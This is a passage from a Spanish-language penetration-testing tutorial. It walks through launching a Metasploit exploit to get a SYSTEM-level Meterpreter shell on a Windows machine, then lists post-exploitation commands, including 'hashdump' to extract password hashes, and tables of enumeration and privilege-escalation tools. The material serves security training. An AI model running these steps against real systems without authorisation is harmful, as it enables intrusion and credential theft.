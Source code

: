Lanzar el exploit:

```bash
exploit
```

📌 Si todo sale bien, deberías tener una **shell Meterpreter**:

```
meterpreter >
```

Ya estás **dentro de la máquina Windows como SYSTEM**.

---

#### 🔹 Paso 4: Post-explotación

Una vez dentro, puedes:

```bash
sysinfo
getuid
hashdump           # Extraer hashes
shell              # Acceder al cmd
```

---

### 🧠 Otras herramientas útiles para servicios en Windows

| Herramienta    | Uso                                                      |
| -------------- | -------------------------------------------------------- |
| `smbclient`    | Acceder a recursos compartidos SMB                       |
| `rpcclient`    | Enumerar usuarios vía RPC                                |
| `crackmapexec` | Enumeración y fuerza bruta en SMB                        |
| `winPEAS`      | Escalada de privilegios post-explotación                 |
| `BloodHound`   | Visualización de relaciones en dominios Active Directory |

---

### 🧠 Resumen general

| Paso                          | Herramientas                      | Objetivo                                |
| ----------------------------- | --------------------------------- | --------------------------------------- |
| Reconocimiento                | `nmap`, `enum4linux`, `rpcclient` | Identificar servicios y configuraciones |
| Detección de vulnerabilidades | `nmap --script`, `searchsploit`   | Ver si son explotables                  |
| Explotación                   | `Metasploit`, exploits manuales   | Obtener acceso                          |
| Post-explotación              | `meterpreter`, `winPEAS`          | Elevar privilegios, recolectar info     |

---